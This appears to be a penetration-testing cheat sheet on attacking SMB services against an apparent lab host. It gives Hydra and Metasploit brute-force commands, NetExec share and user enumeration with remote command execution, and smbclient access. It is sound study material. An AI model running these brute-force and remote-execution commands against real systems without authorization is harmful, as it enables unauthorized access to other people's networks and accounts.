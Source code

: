 ## SMB (Server Message Block)

### Hydra SMB Attack
```bash
# Basic brute force
hydra -L user.list -P password.list smb://10.129.42.197

# Single connection (SMB doesn't like parallel)
hydra -L user.list -P password.list -t 1 smb://10.129.42.197
```

### NetExec SMB Attack
```bash
# Basic attack
netexec smb 10.129.42.197 -u user.list -p password.list

# Enumerate shares after successful login
netexec smb 10.129.42.197 -u user -p password --shares

# List domain users
netexec smb 10.129.42.197 -u user -p password --users

# Password policy
netexec smb 10.129.42.197 -u user -p password --pass-pol

# Execute commands
netexec smb 10.129.42.197 -u user -p password -x "whoami"
```

### Metasploit SMB Login
```bash
# Start msfconsole
msfconsole -q

# Use SMB login module
use auxiliary/scanner/smb/smb_login

# Set options
set user_file user.list
set pass_file password.list
set rhosts 10.129.42.197
set threads 1

# Run the scan
run
```

### SMB Connection
```bash
# Connect with smbclient
smbclient -U user \\\\10.129.42.197\\SHARENAME

# List shares
smbclient -L //10.129.42.197 -U user

# Anonymous access
smbclient -N -L //10.129.42.197

# Mount SMB share
sudo mount -t cifs //10.129.42.197/share /mnt/smb -o username=user,password=password
```
